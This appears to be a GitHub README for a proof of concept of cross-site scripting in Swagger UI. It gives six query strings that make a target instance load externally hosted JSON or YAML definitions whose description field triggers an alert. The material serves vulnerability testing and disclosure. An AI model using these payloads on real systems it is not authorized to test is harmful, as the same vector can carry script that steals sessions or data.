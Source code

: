 ## Swagger UI XSS Proof of Concept

### Description

Swagger UI allows you to load externally sourced API definitions using the `?url=`, `?config=`, or `?configUrl=` parameters. When fields such as the description (`description`) in these definitions are processed without filtering HTML or JavaScript, an XSS (Cross-site Scripting) vulnerability may arise.

This PoC includes a minimal YAML and JSON file that triggers `alert(‘XSS-Found!’)` through the aforementioned vulnerability. By loading these files to Swagger UI instances intended for testing, XSS behavior can be observed.

---

### PoC Usage

Use the following query strings with a vulnerable Swagger UI path, such as:

`https://target-swagger.com/swagger/index.html?<QUERY>`

#### JSON-based PoC

?url=https://raw.githubusercontent.com/c4m0uflag3/swagger-xss-poc/refs/heads/main/xss.json

?config=https://raw.githubusercontent.com/c4m0uflag3/swagger-xss-poc/refs/heads/main/xss.json

?configUrl=https://raw.githubusercontent.com/c4m0uflag3/swagger-xss-poc/refs/heads/main/xss.json

#### YAML-based PoC

?url=https://raw.githubusercontent.com/c4m0uflag3/swagger-xss-poc/refs/heads/main/xss.yaml

?config=https://raw.githubusercontent.com/c4m0uflag3/swagger-xss-poc/refs/heads/main/xss.yaml

?configUrl=https://raw.githubusercontent.com/c4m0uflag3/swagger-xss-poc/refs/heads/main/xss.yaml


If the instance is vulnerable, the following will execute: alert("XSS-Found!")

---
For educational and authorized testing purposes only.
